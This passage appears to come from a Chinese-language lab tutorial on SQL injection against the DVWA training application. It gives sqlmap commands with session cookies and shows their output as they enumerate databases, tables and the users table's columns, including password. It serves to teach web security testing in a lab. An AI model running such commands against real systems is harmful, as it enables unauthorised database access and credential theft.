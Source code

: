 ```
[08:44:12] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.5.38, Apache 2.4.39
back-end DBMS: MySQL >= 5.6
```

**获取数据库**

```shell
sqlmap -u "http://192.168.30.131/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch --dbs
```

result

```
[08:47:22] [INFO] fetching database names
available databases [5]:
[*] dvwa
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

**查看指定数据库并展示所有表：**

```shell
sqlmap -u "http://192.168.30.131/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa --tables
```

result

```
[08:49:55] [INFO] fetching tables for database: 'dvwa'
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```

**查看指定数据库的指定表的所有列：**

```shell
sqlmap -u "http://192.168.30.131/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=de4a36j8c76rh39pm9hjr55k51; security=low" --batch -D dvwa -T users --columns
```

result

```
[08:52:02] [INFO] fetching columns for table 'users' in database 'dvwa'
Database: dvwa
Table: users
[8 columns]
+--------------+-------------+
| Column       | Type        |
+--------------+-------------+
| user         | varchar(15) |
| avatar       | varchar(70) |
| failed_login | int(3)      |
| first_name   | varchar(15) |
| last_login   | timestamp   |
| last_name    | varchar(15) |
| password     | varchar(32) |
| user_id      | int(6)      |
+--------------+-------------+
```
